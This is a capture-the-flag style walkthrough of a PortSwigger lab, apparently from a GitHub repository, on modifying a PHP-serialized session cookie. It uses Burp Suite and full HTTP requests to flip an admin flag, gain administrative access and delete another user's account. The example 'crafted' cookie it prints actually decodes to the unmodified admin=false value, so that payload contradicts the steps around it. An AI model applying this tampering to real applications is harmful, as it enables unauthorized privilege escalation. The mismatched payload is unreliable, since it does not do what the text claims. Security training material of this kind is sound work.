







# Modifying Serialized Objects

## Level
``APPRENTICE``

## Goal
This lab uses a serialization-based session mechanism and is vulnerable to privilege escalation as a result. To solve the lab, edit the serialized object in the session cookie to exploit this vulnerability and gain administrative privileges. Then, delete Carlos's account.

You can log in to your own account using the following credentials: ``wiener:peter``

## Prerequisites

1. You should have read the sections until this lab.
2. Burp Suite Community/Professional

## Video

[](http://www.youtube.com/watch?v=nD1haHhTrIM)

## Start
You should configure your browser and proxy to intercept messages.

Your application looks similar to the following screenshot. Keep in mind that your products can have a different arrangement and of course, it can be different products. The lab environment will be generated automatically and that is the reason why things can be different. Click at the **Account login** link in the upper right of the window.



In the login form put in the username ``wiener`` and the password ``peter`` and click **Log In**.



Go to your proxy and look for a request that is similar to the following. Your host name is different to the host name in this request.

```http
POST /login HTTP/1.1
Host: acfc1f791f19ab3880196a6c00c10020.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://acfc1f791f19ab3880196a6c00c10020.web-security-academy.net
Connection: close
Referer: https://acfc1f791f19ab3880196a6c00c10020.web-security-academy.net/login
Cookie: session=
Upgrade-Insecure-Requests: 1

username=wiener&password=peter
```

The response to this request contains the ``Set-Cookie`` header with a session cookie. This cookie is also different in your lab.

```http
HTTP/1.1 302 Found
Location: https://acfc1f791f19ab3880196a6c00c10020.web-security-academy.net
Set-Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d; Path=/; Secure; HttpOnly
Connection: close
Content-Length: 0
```

In the response mark the value of the ``Set-Cookie`` header completely (``Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d``) and choose in the context menu **Send to Decoder**. Open the Decoder tab and click the **Decode as** button. In the dropdown field choose **URL** click the **Decode as** next to the new window and choose  **Base64**. Your Decoder tab should look similar to the following screenshot.



Notice that the ``admin`` attribute contains ``b:0``, this is a boolean value and means ``false``. Change this to ``b:1``. Now, click the **Encode as** button and choose **base64** then click the **Encode as** button again and choose **URL**. Your Decoder should look like this.



Open the Proxy tab and look for a request like this.

```http
GET / HTTP/1.1
Host: acfc1f791f19ab3880196a6c00c10020.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://acfc1f791f19ab3880196a6c00c10020.web-security-academy.net/login
Connection: close
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d
Upgrade-Insecure-Requests: 1
```

Send this request to Burp Repeater and replace the value of the ``Cookie`` header with your created input.

```http
GET / HTTP/1.1
Host: acfc1f791f19ab3880196a6c00c10020.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://acfc1f791f19ab3880196a6c00c10020.web-security-academy.net/login
Connection: close
Cookie: session=%54%7a%6f%30%4f%69%4a%56%63%32%56%79%49%6a%6f%79%4f%6e%74%7a%4f%6a%67%36%49%6e%56%7a%5a%58%4a%75%59%57%31%6c%49%6a%74%7a%4f%6a%59%36%49%6e%64%70%5a%57%35%6c%63%69%49%37%63%7a%6f%31%4f%69%4a%68%5a%47%31%70%62%69%49%37%59%6a%6f%77%4f%33%30%3d
Upgrade-Insecure-Requests: 1
```

Open your browser with the lab application and hit the refresh button. Make sure to intercept traffic in your Burp Proxy. In the request replace the value of the ``Cookie`` header with your own code and send it to the application.



You see in the upper right of your browser window the **Admin panel** link. Click on this link, in the resulting request you have to replace the value of the ``Cookie`` header again.



You can delete ``carlos`` and this finishes the lab. If you click the **Delete** link you have to replace the value of the ``Cookie`` header again.


